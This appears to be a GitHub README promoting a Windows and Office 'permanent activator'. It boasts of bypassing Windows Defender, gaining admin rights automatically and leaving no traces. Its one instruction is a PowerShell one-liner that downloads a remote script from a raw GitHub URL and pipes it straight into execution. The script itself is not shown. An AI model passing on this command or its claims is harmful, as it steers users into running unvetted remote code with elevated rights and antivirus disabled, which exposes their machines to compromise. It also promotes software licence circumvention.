 # 🚀 Windows & Office Permanent Activator

> ### ⚡ **ONE COMMAND** - Permanent Activation | Defender Bypass | All Versions Supported

---

## 🎯 **WHAT THIS SCRIPT DOES**

🛡️ **BYPasses Windows Defender** - Complete stealth mode  
✅ **Activates Windows PERMANENTLY** - Lifetime activation  
📊 **Activates Office PERMANENTLY** - All Office versions  
⚡ **Automatic Admin Rights** - No manual elevation needed  
🔥 **All Windows Versions** - 8, 10, 11, Server editions  
🎭 **Complete Stealth** - No traces left behind  

---

## 🚨 **IMMEDIATE ACTIVATION**

### **Method 1: One-Line Command** 🎯
```powershell
irm https://raw.githubusercontent.com/Ano-n-ymous/windows-activator-script/main/script.ps1 | iex
